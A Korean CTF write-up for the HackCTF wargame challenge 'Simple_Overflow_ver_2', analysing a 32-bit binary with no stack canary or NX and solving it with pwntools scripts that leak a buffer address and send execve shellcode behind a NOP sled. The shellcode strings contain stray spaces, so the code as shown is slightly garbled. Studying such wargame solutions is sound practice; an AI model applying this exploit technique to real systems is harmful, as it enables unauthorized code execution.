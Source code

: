 **HackCTF - Simple_Overflow_ver_2**

| layout | title                           | auther   | categories | tags           |
| ------ | ------------------------------- | -------- | ---------- | -------------- |
| post   | HackCTF - Simple_Overflow_ver_2 | Y3oj4eng | writeup    | writeupwargame |



# Anlaysis

---

`file` 명령어를 통해 `binary`의 정보를 획득한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ file Simple_overflow_ver_2 
Simple_overflow_ver_2: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-, for GNU/Linux 2.6.24, BuildID[sha1]=8225d06464b48b5f4859fb16d8458cf33768f5de, not stripped

```

`ELF 32bit` 프로그램이다.

이어서 `checksec`명령어를 통해 바이너리에 적용된 `mitigation` 을 확인한다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ checksec Simple_overflow_ver_2 
[*] '/home/mac/Desktop/hackCTF/Simple_overflow_ver_2'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```



분석을 실행하기에 앞서 `binary`를 한번 실행시켜본다.

```bash
mac at ubuntu in ~/Desktop/hackCTF
$ ./Simple_overflow_ver_2 
Data : AAAAAAAAAAAAAAAAAAAAAAAA
0xffd01b30:  A A A A A A A A A A A A A A A A
0xffd01b40:  A A A A A A A A
Again (y/n): y
Data : AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAa
0xffd01b30:  A A A A A A A A A A A A A A A A
0xffd01b40:  A A A A A A A A A A A A A A A A
0xffd01b50:  A A A a
Again (y/n): n

```

이번 문제는 이전 문제들과는 달리 분기를 통해 반복을 진행한다.

`binary`를 실행시키면 `Data :`라는 문자열을 출력한 이후, 사용자로부터 입력을 받는다.

이후 입력받은 값을 일련의 주소값과 함께 출력해준뒤, `Again (y/n): `이라는 문자열을 출력하여

반복 여부를 물어본다.

코드를 분석해보자.

![image](https://user-images.githubusercontent.com/33051018/75776875-32fbdb00-5d98-11ea-9eb8-0de6d3a34e49.png)

`main` 함수이다.

`opt`변수에 `y`값을 초기화해놓고 `do~while`문으로 들어간다.

`Data : `문자열을 출력한뒤 분기문 내에서 `scanf`함수를 통해 `buffer`변수에 값을 입력받는다.

`buffer` 변수는 128bytes 길이지만, 입력을 받을떄 입력값의 길이를 검증하지 않아 `BOF`취약점이 존재한다.

이후 `i`변수를 통해 반복문을 돌며 입력받은 데이터의 길이만큼 반복하며 값을 출력한다.

출력하는 패턴은 아래와 같다.

> 1. `i` 변수 값이 16을 넘어가면 참조하고 있는 버퍼의 주소 출력 - > `if( !(i & 0xF))`
> 2. `i % 16` 모듈러 연산값이 15인경우 즉, 15, 31, 46...etc인 경우  10byte 공백 출력
> 3. 그 외의 경우, 참조하는 데이터값 출력

위 패턴으로 `strlen(buffer)`만큼의 길이를 반복한 뒤,다시 반복을 진행할 것인지에 대한 여부를 확인한다.

# Exploit

---



## 1차 시도 코드

```python
from pwn import *                                                       
                                                                       
p = process('./Simple_overflow_ver_2')                                  
                                                                       
# dummy = 136bytes + 8byters                                            
                                                                       
shellcode = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\x    b0\x0b\xcd\x80'      # 25vytes
                                                                                                                                            
payload1 = 'AAAAAAAAAA'                                                 
                                                                         
p.recvuntil('Data : ')                                                  
p.sendline(payload1)                                                    
                                                                        
buf_addr = int(p.recv(10), 16)                                          
print('Buf_Addr : ' + str(buf_addr))                                                               
                                                                         
payload2 = '\x90'*119                                                   
payload2 += shellcode                                                   
payload2 += p32(buf_addr)                                               
                                                                        
p.recvuntil('Again (y/n): ')                                            
p.sendline('y')                                                         
print("Send Y")                                                         
                                                                        
p.recvuntil('Data : ')                                                  
p.sendline(payload2)                                                    
                                                                         
p.interactive()
```

 실행된 프로그램 내에서는 반복을 계속하여도 `buf`의 주소가 변하지 않는다는 것을 확인하고 첫 입력에는 `buf`의 주소를 획득하기 위해 아무 데이터를 전달하였다. 이후 `shellcode`와 `Nop`의 조합으로 `payload`를 작성하여 두번쨰 입력을 받는 부분에서 `payload`를 전달하였다.

음.. 하지만 익스에 실패하였다.

수정을 하고 또 하고 몇번의 시도 끝에 결국 익스에 성공하였다.



## 최종 code

----

```python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3006)
#p = process('./Simple_overflow_ver_2')
p.recvuntil('Data : ')
p.sendline('AAAA')
buf_addr = int(p.recv(10), 16)

p.recvuntil('Again (y/n): ')
p.sendline('y')
p.recvuntil('Data : ')

payload = '\x31\xc0\x50\x68\x2f\x2f\x73\x68\x6    8\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80'
payload += '\x90'*115
payload += p32(buf_addr)

p.sendline(payload)
p.interactive()
```



위 코드의 `payload`에서 쉘코드와 `Nop sled`의 위치를 바꾸면 익스가 되지 않는다..~~아직까지 이유를 파악하지 못했다.~~

이번 문제를 풀면서 `Debugging`의 필요성을 크게 느꼈다.

`pwntools` 기능에 대해 좀 더 깊게 공부하고 디버깅 방법을 연습해야겠다.




